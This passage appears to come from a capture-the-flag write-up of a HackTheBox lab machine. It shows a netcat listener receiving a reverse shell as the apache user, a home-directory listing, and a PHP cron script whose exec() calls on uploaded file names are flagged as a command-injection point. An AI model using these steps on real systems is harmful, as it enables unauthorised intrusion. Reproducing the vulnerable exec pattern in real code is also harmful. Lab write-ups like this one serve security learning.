After refreshing the `photos.php` page, On the NetCat side, I got the shell
```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.146] 46030
sh: no job control in this shell
sh-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

But we have a permission denied for `user.txt` Looking at the `home` directory, I found one interesting file `check_attack.php`. 

```
cd /home/guly
sh-4.2$ ls -la
ls -la
total 28
drwxr-xr-x. 2 guly guly 4096 Sep  6  2022 .
drwxr-xr-x. 3 root root   18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root    9 Sep  7  2022 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly   18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly  193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly  231 Oct 30  2018 .bashrc
-r--r--r--. 1 root root  782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root   44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly   33 Oct  9 05:41 user.txt
```

##### `Command Injection - PHP`
Look at the `check_attack.php` file
```
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}
```